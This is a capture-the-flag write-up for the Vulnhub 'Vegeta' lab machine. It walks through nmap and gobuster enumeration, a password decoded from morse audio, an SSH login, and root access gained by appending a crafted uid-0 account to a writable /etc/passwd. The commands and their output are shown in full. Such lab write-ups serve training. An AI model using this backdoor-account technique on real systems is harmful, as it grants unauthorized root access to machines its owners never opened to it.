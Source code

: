 ```yaml
---
title: Vulnhub - Vegeta
description: My writeup on Vegeta box.
categories:
 - vulnhub
tags: vulnhub morse gobuster etcpasswd
---
```


![](https://static2.cbrimages.com/wordpress/wp-content/uploads/2020/04/perfected-super-saiyan-blue-vegeta.jpg)

Hi all, let's pwn it!

You can find the machine there > [Vegeta](https://www.vulnhub.com/entry/vegeta-1,501/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:54 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.34 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:55 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:31:30:67:3f:08:30:2e:6d:ae:e3:20:9e:bd:6b:ba (RSA)
|   256 7d:88:55:a8:6f:56:c8:05:a4:73:82:dc:d8:db:47:59 (ECDSA)
|_  256 cc:de:de:4e:84:a8:91:f5:1a:d6:d2:a6:2e:9e:1c:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it:

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/img (Status: 301)
/login.php (Status: 200)
/image (Status: 301)
/admin (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/bulma (Status: 301)
```

## Decoding audio morse code - shell as trunks

`/bulma` gives us a .wav file let's download it and listen to it.

```
$ wget -q http://192.168.1.7/bulma/hahahaha.wav
```

All we can here is "beep boop" that's probably morse code. I found an online [decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![](https://i.imgur.com/SZP2Cig.png)

`TRUNKS PASSWORD : US3R(S IN DOLLARS SYMBOL)` 

That's probably a system user and his password. Let's give it a go with ssh:

```
$ sshpass -p 'u$3r' ssh trunks@$ip 'ls -la'
total 28
drwxr-xr-x 3 trunks trunks 4096 Jun 28 21:32 .
drwxr-xr-x 3 root   root   4096 Jun 28 17:37 ..
-rw------- 1 trunks trunks  382 Jun 28 21:36 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28 17:37 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28 17:37 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28 19:45 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28 17:37 .profile
```

## trunks -> root

Perfect, now privesc is simple. We have to exploit writable `/etc/passwd`:

```
trunks@Vegeta:~$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28 21:23 /etc/passwd
```

Let's generate a password first:

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now the format of `/etc/passwd` is this:

`r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash`

Let's add it:

```
trunks@Vegeta:~$ echo 'r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash' >> /etc/passwd
trunks@Vegeta:~$ su - r000t
Password: 
root@Vegeta:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

The flag:

```
root@Vegeta:~# cat root.txt 

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw
```

Silly :P
